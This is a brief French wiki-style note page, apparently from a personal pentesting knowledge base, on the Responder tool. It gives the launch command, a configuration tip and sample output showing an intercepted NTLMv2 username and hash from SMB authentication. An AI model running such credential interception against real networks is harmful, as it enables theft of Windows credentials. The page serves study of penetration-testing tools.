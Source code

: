<sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](index.md)</sub>
#Responder

**Présentation :** outil d'attaques en tout genres

**Utilisation :**
- Authentification [Windows](windows.md)
- [SMB](smb.md)

**CMD :** sudo responder -I ***INTERFACE***

**Help :**
- si un soucis pour démarrer sur un port comme HTTP : vérifier que dans le usr/share/responder/Responder.conf => server to start => HTTP est bien à Off

**Procédure :**
- responder va faire ????? comme intercepter l authentification Windows via serveur SMB
- on le met à écouter et on va déclencher un évènement. ex : il intercepte username et hash
  <code>[SMB] NTLMv2-SSP Client   : 10.10.10.10
  [SMB] NTLMv2-SSP Username : RESPONDER\Administrator
  [SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:*HASH*</code>
